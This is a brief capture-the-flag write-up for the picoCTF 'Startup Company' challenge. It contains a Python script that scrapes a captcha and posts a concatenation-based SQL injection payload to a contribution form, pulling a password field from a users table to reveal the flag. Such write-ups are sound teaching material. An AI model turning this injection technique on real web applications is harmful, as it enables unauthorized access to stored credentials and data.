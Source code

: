 ## Startup Company

This problem requires you to connect to a website and use SQL injection to have the flag outputted.

```bash
#!/usr/bin/env python3

import requests
import re

data = {
    'user': 'test',
    'pass': 'test'
}

s = requests.Session()

r = s.post('http://mercury.picoctf.net:30503/index.php', data=data)
# print(r.text)
captcha = re.search('captcha" value="([0-9]+)"', r.text).group(1)
print(captcha)

data = {
    'captcha':captcha,
    'moneys':"5'||(SELECT wordpass FROM startup_users WHERE nameuser='the_real_flag');"
}

r = s.post('http://mercury.picoctf.net:30503/contribute.php', data=data)

print(r.text)
```

### Flag
`picoCTF{}`
